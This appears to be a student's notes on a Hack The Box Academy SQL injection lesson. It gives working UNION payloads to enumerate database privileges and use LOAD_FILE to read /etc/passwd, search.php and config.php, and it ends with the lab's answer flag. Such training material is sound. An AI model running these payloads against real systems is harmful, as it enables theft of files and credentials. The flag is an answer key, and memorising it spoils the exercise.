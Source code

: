 ```yaml
---
sticker: lucide//database
---
```


# Reading Files

In addition to gathering data from various tables and databases within the DBMS, a SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.

***

### Privileges

Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

**DB User**

First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Our `UNION` injection payload will be as follows:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or:

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Which tells us our current user, which in this case is `root`:

![](https://academy.hackthebox.com/storage/modules/33/db_user.jpg)

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

**User Privileges**

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

```sql
SELECT super_priv FROM mysql.user
```

Once again, we can use the following payload with the above query:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user `root`:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/33/root_privs.jpg)

The query returns `Y`, which means `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

From here, we can add `WHERE grantee="'root'@'localhost'"` to only show our current user `root` privileges. Our payload would be:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

And we see all of the possible privileges given to our current user:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/33/root_privs_2.jpg)

We see that the `FILE` privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.

***

### LOAD\_FILE

Now that we know we have enough privileges to read local system files, let us do that using the `LOAD_FILE()` function. The [LOAD\_FILE()](https://mariadb.com/kb/en/load_file/) function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the `/etc/passwd` file:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

Note: We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

Similar to how we have been using a `UNION` injection, we can use the above query:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/33/load_file_sqli.png)

We were able to successfully read the contents of the passwd file through the SQL injection. Unfortunately, this can be potentially used to leak the application source code as well.

***

### Another Example

We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/33/load_file_search.png)

However, the page ends up rendering the HTML code within the browser. The HTML source can be viewed by hitting `[Ctrl + U]`.

![load\_file\_source](https://academy.hackthebox.com/storage/modules/33/load_file_source.png)

The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.

## Question

***

![](images/Pasted%20image%2020250203143251.png)

We can use this payload:

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

Once the page has rendered, check source code using `CTRL+U`, we can then use `f3` and search for include:

![](images/Pasted%20image%2020250203143345.png)

We can see the following, now, we can read the `config.php` file:

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

We'll see the following:

![](images/Pasted%20image%2020250203143450.png)

Answer is `dB_pAssw0rd_iS_flag!`
